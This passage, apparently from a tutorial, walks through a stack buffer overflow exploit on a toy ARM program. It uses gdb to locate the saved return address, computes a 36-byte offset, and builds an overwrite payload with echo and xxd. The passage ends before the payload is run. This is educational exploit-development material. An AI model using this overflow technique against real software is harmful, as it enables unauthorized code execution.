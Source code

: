Alright, so after the return `pc` gets set to
`0xb6e7d740`. We do not particularly care about where
this address points to. What we are interested in
however, is where this value was on the stack.

While this could have been figured out just by reading
the assembly, this is a good way to verify that too.

After searching for `0xb6e7d740` among the words near the
stack pointer around the stack frame of `main`, we found it:

```gdb
0xbefff4f8:     0x00000000      0x00000000      0x00000000       0xb6e7d740
```

### The Exploit Plan

There it is. It looks like the address of it was
`0xbefff504`. From this we can derive how far away it is
from our buffer. It looks like the distance is 9 words,
or equivalently 36 bytes.

So here is how we can exploit this program: Make our
input have 36 bytes of whatever followed by the address
of `unused_function`. Then executing `strcpy` will
overwrite the stored `pc`, so after executing the
return, pc will point to the start of `unused_function`,
so it will execute its contents.

Well, we already the have the address of
`unused_function`. It is `0x00010494`.

Alright, let's pad it with 36 bytes of garbage. I used
GHCi to not have to manually type that out, but choose
whatever option you like the best.

```sh
$ ghci -e 'take 36 $ cycle "12345678"'
"123456781234567812345678123456781234"
```

To add the address to the end of our string we need to hex escape then in
whatever language we choose. We will end up with something along the lines of
`"123456781234567812345678123456781234\x94\x04\x01\x00"`.

I am going to use some shell magic to pass it as an argument. `echo` supports
hex escape sequences, so that will work for us perfectly. Let's see:

```sh
$ echo -e '123456781234567812345678123456781234\x94\x04\x01\x00'
123456781234567812345678123456781234ö��
```

Something definitely *has* been resolved. Let's check that it is
indeed what we think it is.

```sh
$ echo -e '123456781234567812345678123456781234\x94\x04\x01\x00' | xxd
00000000: 3132 3334 3536 3738 3132 3334 3536 3738  1234567812345678
00000010: 3132 3334 3536 3738 3132 3334 3536 3738  1234567812345678
00000020: 3132 3334 9404 0100 0a                   1234.....
```
